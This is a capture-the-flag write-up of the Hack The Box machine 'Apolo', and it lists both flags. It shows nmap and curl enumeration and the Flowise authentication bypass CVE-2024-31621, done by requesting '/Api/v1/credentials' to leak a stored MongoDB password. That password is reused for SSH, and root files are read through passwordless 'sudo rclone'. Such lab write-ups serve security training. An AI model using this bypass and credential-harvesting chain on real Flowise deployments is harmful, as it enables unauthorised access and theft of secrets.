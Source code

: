 ![](assets/images/banner.png)


<font size="10">Apolo</font>
15<sup>th</sup> December 2024

### Difficulty:

`Very Easy`

### Flags:

User: `HTB{llm_ex9l01t_4_RC3}`

Root: `HTB{cl0n3_rc3_f1l3}`

# Enumeration
Using `curl`, I probed the IP address `10.129.231.24` and observed a redirection to `apolo.htb`:
```
seclzi@anonymous:~$ curl http://10.129.231.24 -v
*   Trying 10.129.231.24:80...
* Connected to 10.129.231.24 (10.129.231.24) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.129.231.24
> User-Agent: curl/7.81.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Moved Temporarily
< Server: nginx/1.18.0 (Ubuntu)
< Date: Mon, 16 Dec 2024 09:59:00 GMT
< Content-Type: text/html
< Content-Length: 154
< Connection: keep-alive
< Location: http://apolo.htb/
< 
<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
* Connection #0 to host 10.129.231.24 left intact
```
The server responded with a **302 Found** status, redirecting me to `apolo.htb`. To proceed, I added the domain `apolo.htb` to the `/etc/hosts` file for local resolution.

#### Nmap Scan
Next, I conducted a detailed scan using `nmap`:
```
seclzi@anonymous:~$ sudo nmap -sC -sV -sS apolo.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-16 17:06 WIB
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 17:07 (0:00:06 remaining)
Nmap scan report for apolo.htb (10.129.231.24)
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Apolo
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.90 seconds
```

The scan revealed two open ports:

- **Port 22 (SSH):** OpenSSH 8.2p1
- **Port 80 (HTTP):** Nginx 1.18.0 (Ubuntu)

#### Subdomain Discovery

Examining the web page's source code, I found a subdomain `ai.apolo.htb`. To access it, I added this subdomain to the `/etc/hosts` file.

Upon visiting `ai.apolo.htb`, I gathered the following details:

- The subdomain is powered by **FlowiseAI**, a platform with a known vulnerability.
- Access to the AI interface requires login credentials.

---

![[Pasted image 20241216171139.png]]

![[Pasted image 20241216171721.png]]
#### Observations

The initial enumeration uncovered two critical pieces of information:

1. **Vulnerability in FlowiseAI:** A known authentication bypass vulnerability (CVE-2024-31621) could potentially be exploited.
2. **Host Configuration:** The server is running on an Ubuntu Linux system with services accessible through SSH and HTTP.

These findings set the stage for further exploitation of the FlowiseAI platform.
# Foothold

![[Pasted image 20241216172037.png]]
While researching Flowise, I discovered that versions <= 1.6.5 are vulnerable to a known issue listed as `CVE-2024-31621`.
### CVE-2024-31621: Flowise 1.6.5 - Authentication Bypass Vulnerability

#### **Overview**
Flowise version <= 1.6.5 is vulnerable to an **authentication bypass vulnerability** due to improper handling of **case sensitivity** in the authentication middleware.

---

### **Vulnerability Description**
The vulnerability lies in the following code snippet:

```javascript
this.app.use((req, res, next) => {
    if (req.url.includes('/api/v1/')) {
        whitelistURLs.some((url) => req.url.includes(url)) ?
        next() : basicAuthMiddleware(req, res, next)
    } else next()
});
```
### **Logic Flaw**
- The middleware checks if the URL contains `/api/v1/` (in lowercase) to enforce authentication, except for specific **whitelisted endpoints**.
- This check is **case-sensitive**, meaning uppercase variations of the URL (e.g., `/API/V1` or `/Api/v1`) bypass the authentication middleware.

### **EXPLOIT PoC**
I exploited this vulnerability by targeting the `/Api/v1/credentials` endpoint:
```
seclzi@anonymous:~$ curl http://ai.apolo.htb/Api/v1/credentials
```
**Output:**
```
[{"id":"6cfda83a-b055-4fd8-a040-57e5f1dae2eb","name":"MongoDB","credentialName":"mongoDBUrlApi","createdDate":"2024-11-14T09:02:56.000Z","updatedDate":"2024-11-14T09:02:56.000Z"}]
```
The endpoint revealed a credentials ID. Next, I accessed the credentials directly using the extracted ID:
`seclzi@anonymous:~$ curl http://ai.apolo.htb/Api/v1/credentials/6cfda83a-b055-4fd8-a040-57e5f1dae2eb`
**Output:**
`{"id":"6cfda83a-b055-4fd8-a040-57e5f1dae2eb","name":"MongoDB","credentialName":"mongoDBUrlApi","createdDate":"2024-11-14T09:02:56.000Z","updatedDate":"2024-11-14T09:02:56.000Z","plainDataObj":{"mongoDBConnectUrl":"mongodb+srv://lewis:C0mpl3xi3Ty!_W1n3@cluster0.mongodb.net/myDatabase?retryWrites=true&w=majority"}}`

---

### **Accessing the Shell**

The `mongoDBConnectUrl` revealed the username `lewis` and password `C0mpl3xi3Ty!_W1n3`. I used these credentials to attempt SSH access.
![[Pasted image 20241216173546.png]]
Bingo, we get the user !!!
# Lateral Movement
After gaining access to the user `lewis`, I enumerated their `sudo` privileges using `sudo -l` and discovered the following:

```
lewis@apolo:~$ sudo -l
Matching Defaults entries for lewis on apolo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lewis may run the following commands on apolo:
    (ALL : ALL) NOPASSWD: /usr/bin/rclone
```

This indicated that `lewis` could execute the `rclone` command as root without a password. I leveraged this privilege to copy the `root.txt` flag from the `/root/` directory into my accessible `/home/lewis/` directory.

#### Exploitation Steps:

1. Used the following command to copy the `root.txt` file:
```
	lewis@apolo:~$ sudo rclone copy /root/root.txt /home/lewis/root.txt 
	
	2024/12/16 10:36:49 NOTICE: Config file "/root/.config/rclone/rclone.conf" not found - using defaults
```

2. Verified the presence of the `root.txt` file in my home directory:
    
```
	lewis@apolo:~$ ls -la
	total 32
	drwxr-xr-x 4 lewis lewis 4096 Dec 16 10:36 .
	drwxr-xr-x 3 root  root  4096 Oct 28 11:34 ..
	lrwxrwxrwx 1 root  root     9 Dec  4 07:17 .bash_history -> /dev/null
	-rw-r--r-- 1 lewis lewis  220 Oct 28 11:34 .bash_logout
	-rw-r--r-- 1 lewis lewis 3771 Oct 28 11:34 .bashrc
	drwx------ 2 lewis lewis 4096 Nov 14 07:33 .cache
	-rw-r--r-- 1 lewis lewis  807 Oct 28 11:34 .profile
	drwxr-xr-x 2 root  root  4096 Dec 16 10:36 root.txt
	-rw-r----- 1 root  lewis   23 Nov 21 08:54 user.txt
```

    
3. Finally, I read the contents of the flag:
    
    ```
	lewis@apolo:~$ cat root.txt/root.txt && cat user.txt 
	HTB{cl0n3_rc3_f1l3}
	HTB{llm_ex9l01t_4_RC3}
	```
    

Bingo! The `root.txt` and `user.txt` flag was successfully retrieved.